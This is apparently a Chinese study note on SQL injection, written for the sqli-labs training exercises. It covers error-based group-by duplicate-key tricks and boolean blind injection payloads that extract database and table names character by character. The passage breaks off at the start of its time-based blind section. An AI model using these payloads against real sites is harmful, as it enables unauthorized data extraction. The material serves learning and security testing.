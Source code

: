 

##### 1.4.3group by重复键冲突

count(*):返回表中的行数

​	直接加字段名：返回字段值不为空的行数

​	distinct 字段名：返回字段值不重复且不为空的行数

rand():随机生成一个0~1的数

floor():返回**小于等于**该值的最大整数值

group by:以指定组名排序，组名可以自定义

```sql
select username x from users group by x;

select username as x from users group by x;
```

### 1.5盲注

###### 1.5.1布尔盲注

Less-8

length(str):统计字符串的长度

substr(exp,offset,length):对一个字符串取子字符串（mid,left与substr类似）

like ‘%关键字%’：以关键字搜索

ascii():取字符的ascii编码，类似的有ord()

```sql
# 判断数据库的名
and length (database())=8 --+					查出库名长度
and ascii(substr(database(),1,1))='110' --+		查看库名第一个字母的ASCII

# 判断数据库的表名
and length((select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1))=8 --+									 查出表名长度

and ascii(substr((select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1),1,1))>98 --+						 查看表名第一个字母的ASCII
```

###### 1.5.2 时间盲注

Less-10

sleep(num):让语句延迟执行

​	num：语句延迟执行的时间

if(exp1,exp2,exp3):判断exp1的正确与否，并以此执行后面的表达式

正确则执行exp2，否则执行exp3
